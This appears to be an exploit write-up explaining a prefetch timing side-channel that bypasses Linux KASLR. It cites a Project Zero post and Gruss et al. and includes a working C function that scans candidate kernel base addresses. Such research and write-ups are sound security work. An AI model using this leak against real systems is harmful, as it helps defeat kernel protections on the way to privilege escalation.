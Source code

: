 A simple implementation the prefetch timing side-channel (described in this [P0 blog post](https://googleprojectzero.blogspot.com/2022/12/exploiting-CVE-2022-42703-bringing-back-the-stack-attack.html "https://googleprojectzero.blogspot.com/2022/12/exploiting-CVE-2022-42703-bringing-back-the-stack-attack.html") and originally from this [paper](https://gruss.cc/files/prefetch.pdf "https://gruss.cc/files/prefetch.pdf") by Daniel Gruss et al.) is used to bypass KASLR. This side-channel exploits timing differences in `prefetch` instructions based on whether the target address is mapped and the cache state.

Addresses which are mapped and have been recently accessed have a faster prefetch time than unmapped addresses (`prefetch` itself does not count as an access here). We access `sys_getuid()` by calling `getuid()` and then measure prefetch times for all possible locations of `sys_getuid()`. The target instance's kernel base is always located at a `0x1000000` aligned address between `0xffffffff81000000` and `0xffffffffbb000000`, so there are 59 candidate addresses to test.

The attack first finds the minimum prefetch time `min` for the unmapped address `0xffffffff80000000`. Prefetch times for other unmapped addresses will likely be greater than or equal to to `min`, so any address with a faster prefetch time is assumed to be mapped. The lowest mapped address found this way is taken to be the kernel base.



```
#define MIN_STEXT 0xffffffff81000000
#define MAX_STEXT 0xffffffffbb000000 
#define BASE_INC 0x1000000

long kaslr_leak (int tries1, int tries2) {
    long base = -1, addr;
    size_t time;
    size_t min = -1;

    addr = 0xffffffff80000000;
    for (int i = 0; i < tries1; i++) {
        time = onlyreload(addr);
        min = min < time ? min : time;
    }

    for (int i = 0; i < tries2; i++) {
        for (addr = MIN_STEXT; addr <= MAX_STEXT; addr += BASE_INC) {
            time = onlyreload(addr + SYS_GETUID);
            if (time < min && addr < base) {
                base = addr;
            }
        }
    }
    return base;
}
```

The prefetch timing assembly code in `onlyreload()` is taken from Daniel Gruss's [repository](https://github.com/IAIK/prefetch "https://github.com/IAIK/prefetch") with `cpuid` replaced by `mfence` as suggested in the P0 blog post.

The original exploit did not preload the target address, but the leak will not work reliably without this on the current server (likely due to increased cache activity).

 This side-channel does not work on the repro instance.